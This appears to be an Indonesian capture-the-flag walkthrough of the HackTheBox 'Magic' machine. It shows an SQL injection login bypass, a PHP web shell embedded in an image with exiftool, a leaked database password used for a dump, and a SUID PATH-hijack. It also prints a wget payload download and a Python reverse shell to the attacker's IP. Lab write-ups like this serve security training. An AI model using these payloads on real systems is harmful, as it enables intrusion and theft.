

# HackTheBox - Magic Writeup

## Scanning Nmap

```bash
nmap -sV -o magic.txt -v 10.10.10.185
```

```bash
Nmap scan report for 10.10.10.185
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 14 15:24:01 2020 -- 1 IP address (1 host up) scanned in 25.28 seconds

```

## Enumerasi Pada Port 80

Enumerasi pada halaman website, kita ditemukan pada dashboard yang terdapat halaman login `https://10.10.10.185/login.php`. Kemudian saya mencoba untuk menyisipkan script sql injection untuk membypass halaman login tersebut. untuk referensi bypass login page silahkan baca pada tutorial sql injection [disini](https://exploit.linuxsec.org/sql-injection-authentication-bypass-cheat-sheet/)

```php
admin' or 1=1#
```


Setelah berhasil melewatin halaman login dengan metode SQL injection \(Bypass Login Page\) kita langsung diredirect ke halaman  `https://10.10.10.185/upload.php`


## Initial Remote Command Execution

Upload Backdoor Image pada halaman tersebut. Banyak Cara dan Tools yang bisa digunakan untuk membuat backdoor dalam bentuk image / gambar. Pada mesin ini saya menggunakan exiftool yang sudah default terinstall pada sistem operasi kali linux.

Perintah untuk menyisipkan syntax php pada image menggunakan exiftool

```php
exiftool -Comment='<?php echo "<pre>"; system($_GET['obeysec']); ?>' backdoor.php.jpg
```


Step selanjutnya adalah mencari dimana backdoor yang sudah kita upload tersebut di simpan. Saya menggunakan ffuf yang merupakan tools untuk melakukan fuzzing / direktori bruteforcing. tools ini bisa diinstall dengan mudah, untuk mendapatkan nya tinggal clone dari repositori github nya [disini](https://github.com/ffuf/ffuf).

```php
ffuf -u http://10.10.10.185/FUZZ/ -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://10.10.10.185/images/FUZZ/ -w /usr/share/wordlists/dirb/common.txt
```

hasil dari fuzzing direktori nya adalah sebagai berikut :


karena folder images menghasilkan forbidden saat di akses, saya mencoba untuk melakukan direktori bruteforcing kembali pada folder `/images/`. hasilnya saya mendapati didalam folder images terdapat satu direktori yaitu direktori `/uploads/`


## Mengakses Backdoor Image

Setelah Mengetahui lokasi dari backdoor yang sudah di upload, kita dapat mengakses backdoor tersebut pada browser dengal url yang sudah kita dapatkan dari fuzzing sebelumnya sebagai berikut :

```php
http://10.10.10.185/images/uploads/backdoor.php.jpg?obeysec=whoami
```


## Reverse Shell

Karena kita sudah mendapatkan Remote Command Execution dari backdoor yang kita upload sebelumnya. saatnya melakukan reverse shell untuk mendapatkan shell utuh dari target agar dapat melakukan post exploitation atau melakukan eksploitasi lebih dalam lagi terhadap target. [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

saya mengupload php-reverse-shell.php dari pentest_-_monkey , bisa didownload pada url diatas.

```php
#php-reverse-shell.php
```


yaps ! kita berhasil mendapatkan akses shell penuh dari target. tahap selanjutnya adalah exploitasi lebih mendalam "_post explotation"_  dengan tujuan mendapatkan akses yang lebih tinggi atau istilahnya _privilege escalation_

## Privilege To User

Saat ini shell yang didapatkan adalah shell dari www-data, pada HackThebox biasanya kita harus menjadi user supaya mendapatkan flag `user.txt` dan harus mendapatkan akses root untuk mendapatkan flag `root.txt`

Saya melalukan enumerasi satu persatu pada semua file yang terdapat pada /var/www/Magic/


kemudian mendapati isi dari db.php5 ada file konfigurasi database yang memiliki informasi sensitif dari user theseus berupa credential database sebagai berikut :


kemudian saya mencoba mengakses databases Magic menggunakan mysqldump yang terinstall pada mesin ini dengan kredensial yang saya dapatkan diatas:


```php
#menggunakan mysqldump untuk mengekstrak database Magic
mysqldump --databases Magic -utheseus -piamkingtheseus
```




Setelah mendapati isi dari databases tersebut saya memeriksa file /etc/passwd untuk mengetahui apakah user theseus mendapatkan akses ke shell bash atau tidak

```php
www-data@ubuntu:/var/www/Magic$ cat /etc/passwd | grep -i theseus
```


yaps ! dari gambar diatas user theseus mendapatkan akses ke bash. kemudian langsung saja kita login sebagai user theseus dengan kredensial tersebut.


## Privilege Escalation ke Root

Setelah menganalisa mesin ini secara detail, saya mendapati ada SUID bit yang tidak default. yaitu `sysinfo` untuk mengecek semua SUID kita bisa mengetik kan perintah berikut ini :

```php
find / -perm -u=s -type f 2>/dev/null
```


Saya menemukan artikel yang sangat bagus mengenai sysinfo SUID untuk melakukan privilege escalation ke sistem root [disini](https://labs.f-secure.com/assets/BlogFiles/magnicomp-sysinfo-setuid-advisory-2016-09-22.pdf). saya mengikuti tutorial pada halaman tersebut dengan mengubah beberapa poin untuk menyesuaikan terhadap environment mesin Magic.


kemudian sesuai artikel diatas , kita menyisipkan backdoor yang diberi nama fdisk. saya menggunakan script python3 yang untuk di sisipkan ke dalam file fdisk.


```php
#Pada Mesin Target
mkdir -p /tmp/obeysec
export PATH=/tmp/obeysec:$PATH
touch /tmp/obeysec/fdisk && chmod 755 fdisk
wget http://10.10.14.36/shell -O /tmp/obeysec/shell
cp /tmp/obeysec/shell /tmp/obeysec/fdisk
sysinfo /tmp/obeysec/ fdisk

#Pada Mesin Attacker
- nano shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8171));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

- python3 -m http.server 80

- nc -lvnp 8171

```

root !


